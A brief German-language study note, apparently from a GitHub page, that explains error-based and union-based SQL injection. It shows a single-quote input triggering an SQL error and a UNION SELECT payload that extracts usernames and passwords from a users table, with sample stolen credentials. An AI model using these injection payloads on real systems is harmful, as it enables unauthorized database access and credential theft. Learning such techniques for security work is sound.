 Zu unterscheiden in "Error Based" oder "Union Based".

# Error-Based
```sql
// Input
www.random.com/app.php?id\=' // Das Hochkomma 
// Output
You have an error in your SQL syntax...
```

# Union-Based
```sql
// Input
www.random.com/app.php?id\=' UNION SELECT username, password FROM users \--
// Output
carlos
asdklsdf
administrator
asjklhnöshf
```
